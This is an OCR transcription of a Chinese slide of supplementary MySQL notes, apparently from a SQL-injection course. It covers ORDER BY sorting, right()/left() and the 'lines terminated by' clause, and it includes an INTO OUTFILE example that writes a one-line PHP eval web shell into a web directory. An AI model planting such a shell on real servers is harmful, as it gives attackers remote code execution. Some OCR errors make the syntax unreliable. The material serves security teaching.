

# 补充知识_mysql知识补充
SQL语句中，asc是指定列按升序排列，desc则 是指定列按降序排列。
select * from users order by 1 desc;  使用降序进行排列
select * from users order by1 asc;使用升序进行排列
right()    select right(database(),1);
Left()    select left(database(),1);
lines terminated by xxx   以xxx为结尾:
select '<?php @eval($_ POST[crow]);?>' into outfile 'C:\pbpstudy\PHPTutorilWWW.crow.pbp’  lines
terminated by 0x363636;
最后写好的文件会以666结尾。(详细可 参考: https://www.cnblogs. com/SZxiaochun/p/6027450.htmI)